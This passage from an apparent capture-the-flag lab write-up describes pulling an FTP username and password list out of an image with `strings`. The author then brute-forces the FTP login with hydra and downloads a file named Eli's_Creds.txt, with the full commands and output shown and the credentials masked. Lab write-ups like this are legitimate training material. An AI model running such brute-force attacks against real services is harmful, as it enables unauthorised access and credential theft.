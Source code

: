 But we don't find anything useful as there are only part which both constitute to the PNG image. So, we need to think of some other way to get the data from the image. We can try to use `strings` and see if there are some string values in the file. 

![ftppass](./.images/ftppass.jpg)

From the `strings` output we get the username of an FTP user and also a list of passwords. So, we can copy this list of passwords in a file and pass it to hydra along with the username we just found to get the correct password from all these. 

```
┌─[tester@parrot-virtual]─[~/Downloads]
└──╼ $hydra -l ******* -P pwd <machine_ip> ftp
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-25 07:34:09
[DATA] max 16 tasks per 1 server, overall 16 tasks, 74 login tries (l:1/p:74), ~5 tries per task
[DATA] attacking ftp://10.10.245.21:21/
[21][ftp] host: 10.10.245.21   login: *******   password: **************
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-09-25 07:34:24
```

Now, we have the username and password for FTP. So, we can explore the FTP directory and download any files present there.

```
┌─[tester@parrot-virtual]─[~/Downloads]
└──╼ $ftp 10.10.245.21
Connected to 10.10.245.21.
220 (vsFTPd 3.0.2)
Name (10.10.245.21:tester): *******
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Jan 23  2020 .
drwxr-xr-x    2 0        0            4096 Jan 23  2020 ..
-rw-r--r--    1 0        0             758 Jan 23  2020 Eli's_Creds.txt
226 Directory send OK.
ftp> mget Eli's_Creds.txt
mget Eli's_Creds.txt? y
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for Eli's_Creds.txt (758 bytes).
226 Transfer complete.
758 bytes received in 0.00 secs (7.5301 MB/s)
ftp> exit
221 Goodbye.
```
